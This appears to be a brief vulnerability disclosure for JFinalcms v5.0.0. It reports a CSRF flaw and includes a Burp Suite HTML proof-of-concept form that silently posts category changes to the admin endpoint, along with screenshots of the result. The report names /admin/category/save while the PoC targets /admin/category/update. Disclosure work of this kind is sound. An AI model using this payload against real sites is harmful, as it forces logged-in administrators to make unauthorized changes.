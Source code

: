 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/category/save


![图片](https://github.com/nightcloudos/new_cms/assets/76925342/3f42daad-6487-4fe8-b65c-6ce2e60a5f72)

create poc

![图片](https://github.com/nightcloudos/new_cms/assets/76925342/764d57a4-7407-4ccd-a6b3-dafcf244bcbf)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/category/update" method="POST">
      <input type="hidden" name="id" value="1125" />
      <input type="hidden" name="name" value="cs123" />
      <input type="hidden" name="parentId" value="" />
      <input type="hidden" name="modelId" value="5" />
      <input type="hidden" name="listTemplate" value="case&#95;list&#46;html" />
      <input type="hidden" name="detailTemplate" value="case&#95;detail&#46;html" />
      <input type="hidden" name="cat" value="cs" />
      <input type="hidden" name="code" value="cs" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="introduction" value="" />
      <input type="hidden" name="subname" value="" />
      <input type="hidden" name="remark" value="" />
      <input type="hidden" name="outlink" value="" />
      <input type="hidden" name="ico" value="" />
      <input type="hidden" name="file" value="" />
      <input type="hidden" name="image" value="" />
      <input type="hidden" name="file" value="" />
      <input type="hidden" name="title" value="" />
      <input type="hidden" name="keywords" value="" />
      <input type="hidden" name="description" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![图片](https://github.com/nightcloudos/new_cms/assets/76925342/a7685ca5-8fd6-47e3-a422-33783f78ac0b)
